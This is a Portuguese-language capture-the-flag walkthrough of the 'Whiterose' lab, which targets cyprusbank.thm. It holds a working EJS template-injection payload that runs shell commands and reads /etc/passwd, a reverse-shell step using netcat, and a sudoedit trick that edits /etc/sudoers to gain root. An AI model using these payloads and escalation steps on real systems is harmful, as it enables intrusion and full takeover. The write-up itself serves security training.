# _**Whiterose CTF**_


## _**Enumeração**_
Primeiro, vamos tomar nota do que a sala nos diz
* _You will need these:_ Olivia Cortez:olivi8

Segundo, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos um website  
Investigando, temos que alterar o arquivo _/etc/hosts_ com o IP e nome do site  
Alterando, visitamos o site e temos apenas uma mensagem  
Vamos tentar realizar uma enumeração de subdomínio e de diretórios  
> ```bash
> gobuster dir --url cyprusbank.thm -w ../seclists/Discovery/Web-Content/common.txt
> ```
Temos apenas _index.html_ de retorno  
> ```bash
> ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cyprusbank.thm -H "Host:FUZZ.cyprusbank.thm" -fw 1
> ```


Temos 2 domínios  
Vamos investigar eles  
Uma página de login, vamos tentar as credenciais dadas no início da sala  



Buscando pelo nome **Tyrell**, encontramos um valor, mas seu número está apagado  
Procurando por outras maneiras, uma nova tentativa com <mark>Gobuster</mark> foi feita
> ```bash
> gobuster dir --url admin.cyprusbank.thm -w ../seclists/Discovery/Web-Content/common.txt
> ```


Vamos investigar estes diretórios  
Um deles chama a atenção: **messages**  
Parece que podemos alterar a URL para verificar antigas mensagens  



Temos credenciais!  



Realizando login na conta de **Gayle Bev**, podemos verificar o número de **Tyrell**  

## _**Ganhando acesso**_
Para esta parte, fiquei perdido por um tempo, até que descobri o seguinte ataque  
Primeiro, nota-se que ao trocar a senha de algum usuário, ela é totalmente exibida no site 
Sugerindo que o site é vulnerável a **SSTI (Server Side Template Injection)**  
O SSRI pode ser usado para LFI e RCE  
Atualizaremos a senha novamente e capturaremos a solicitação no <mark>burp suite</mark>  
Após iniciarmos a solicitação, a enviaremos ao repetidor  
Como teste, adicionei um 0 ao final de password (password0) e cliquei em enviar  
Na resposta, vemos o erro "settings.ejs"  


Pesquisando sobre o erro, temos o seguinte  



Pedimos para gerar um _payload_: <%= require("fs").readFileSync("/etc/passwd") %>  
Vamos testar  
Não funcionou  
Procurando no google por _payloads_ para este tipo de erro, encontramos [este site](https://eslam.io/posts/ejs-server-side-template-injection-rce/)  
Nosso novo _payload_: &settings[view options][outputFunctionName]=x;return global.process.mainModule.require('child_process').execSync('cat /etc/passwd');//  



Vamos tentar obter um _reverse shell_  
Primeiro, visitamos o site [reverseshells](reverseshells.com)  
Criamos um _payload_ com _URL encode_  
Ligamos nosso ```netcat``` e conseguimos!  



Vamos melhorar essa _shell_ com: python3 -c 'import pty, os; pty.spawn("/bin/bash")'  

## _**Escalando privilégios**_
Primeiro, vamos começar com alguns comandos básicos como ```sudo -l```  



Tentando escalar privilégios com os comandos abaixo e não funcionou
> ```bash
> export EDITOR="bash"
> sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> sudo EDITOR=bash sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> sudo -E sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> ```
Procurando pela versão de ```sudoedit```, temos o seguinte  



O primeiro passo para explorar isso é definir a variável EDITOR para gravar em um arquivo crítico ao qual somente o root deve ter acesso  
Executando os comandos abaixo, nos permite ganhar privilégios em seguida  
> ```bash
> export EDITOR="vim -- /etc/sudoers"
> sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
> ```


Adicione a seguinte linha: ```web ALL=NOPASSWD: ALL```  
Depois de executar o segundo comando, o arquivo será aberto para edição  
Estava extremamente difícil editar e navegar  
Dando _enter_ algumas vezes e finalmente conseguindo sair do editor, conseguimos _root_ com ```sudo su```  
Basta ir atrás das flags!
